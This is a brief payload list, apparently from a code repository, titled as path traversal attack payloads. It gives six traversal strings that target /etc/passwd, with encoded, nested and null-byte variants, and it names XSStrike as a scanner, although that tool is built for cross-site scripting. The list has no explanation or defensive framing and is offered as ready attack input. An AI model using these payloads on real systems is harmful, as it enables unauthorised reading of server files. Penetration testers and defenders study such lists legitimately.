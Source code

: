 Path Traversal Attack Payload List


Path Traversal Attack Scanner Tools:
. XSStrike


# Payload List
../../../etc/passwd
/etc/passwd
....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
/var/www/images/../../../etc/passwd
../../../etc/passwd%00.png
